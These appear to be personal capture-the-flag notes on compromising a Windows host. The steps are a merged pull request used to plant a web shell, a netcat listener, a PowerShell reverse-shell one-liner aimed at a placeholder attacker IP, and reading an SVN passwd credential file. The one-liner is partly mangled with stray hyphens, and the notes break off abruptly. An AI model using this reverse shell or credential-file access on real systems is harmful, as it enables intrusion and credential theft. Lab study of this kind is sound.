 ![[Pasted image 20250209095207.png]]

![[Pasted image 20250209095908.png]]

![[Pasted image 20250209095938.png]]

![[Pasted image 20250209100020.png]]

it will push our code into master
`Nathalie Henley completed the pull request on 2/9/2025 9:01 AM (just now).`

![[Pasted image 20250209100303.png]]

```bash
──(pwn㉿kali)-[/usr/share/nishang/Shells]
└─$ cp Invoke-PowerShellTcpOneLine.ps1 /home/pwn

## Pre - exploitation
``
```
```txt

┌──(pwn㉿kali)-[~]
└─$ nc -nlvp

in web shell:

`-powershell -Command "Get-Process"`
-powershell -ExecutionPolicy Bypass -Command "Get-Process"
-powershell -ExecutionPolicy Bypass -Command "$client = New--Object System.Net.Sockets.TCPClient('<attacker-ip>', <port>); -$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%-{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne -0) { $data = (New-Object -Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = -(iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS -' + (pwd).Path + '> '; $sendbyte = -([text.encoding]::ASCII).GetBytes($sendback2); -$stream.Write($sendbyte, 0, $sendbyte.Length); -$stream.Flush() }"

---



```

```bash
PS W:\svnrepos\www\conf> dir


    Directory: W:\svnrepos\www\conf


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       2020-06-20     11:29           1112 authz                                                                 
-a----       2020-06-20     11:29            904 hooks-env.tmpl                                                        
-a----       2020-06-20     15:27           1031 passwd                                                                
-a----       2020-04-04     20:51           4454 svnserve.conf                                                         


PS W:\svnrepos\www\conf> 
PS W:\svnrepos\www\conf> type passwd
```